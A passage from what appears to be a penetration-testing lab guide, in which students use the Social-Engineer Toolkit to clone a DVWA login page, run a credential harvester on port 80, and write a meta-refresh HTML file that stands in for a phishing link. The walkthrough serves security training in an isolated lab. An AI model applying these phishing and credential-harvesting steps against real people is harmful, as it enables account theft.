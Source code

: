 [-] SET supports both HTTP and HTTPS

[-] Example: http://www.thisisafakesite.com

set:webattack> Enter the url to clone:**http://DVWA.vm** 

[*] Cloning the website: http://DVWA.vm

[*] This could take a little bit...

5. When the website is cloned, the following message appears on the terminal.

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.

[*] The Social-Engineer Toolkit Credential Harvester Attack

[*] Credential Harvester is running on port 80

[*] Information will be displayed to you as it arrives below:

**Note**: No prompt will be returned to you. This is because a listener is now active on port 80 on the Kali computer and all port 80 traffic will be redirected to this screen. Do not close the terminal window. Continue to Part 3.


## Part 3: Capturing and Viewing User Credentials

### Step 1: Create the Social Engineering Exploit.

In a “real-life” exploit, at this point, a phishing exploit containing a link or QR code that sends the user to the fake website is created and sent. In this lab, an html document is created to direct the user to the fake webpage. This document simulates a distributed phishing URL. It could be distributed as a file attachment in phishing emails.

1. Open the Kali Linux Mousepad text editor using the **Applications > Favorites > Text Editor** choice from the menu. Enter the HTML code shown into the Mousepad document.
```xml
<html>

<head>

<meta http-equiv="refresh" content="0; url=http://10.6.6.1/" />

</head>

</html>
```

2. Select **File > Save** from the Mousepad menu. Name the document **Great_link.html** and save it in the **/home/kali/Desktop** Folder. The icon appears on the Kali desktop.
3. Close the Mousepad application.

### Step 2: Capture User Credentials.

The purpose of the cloned website is to present a web page that looks identical to the one that the user is expecting. A good hacker would create a fake URL that would be very similar to the actual URL, so that unless the user inspects the URL very closely, it would go unnoticed.
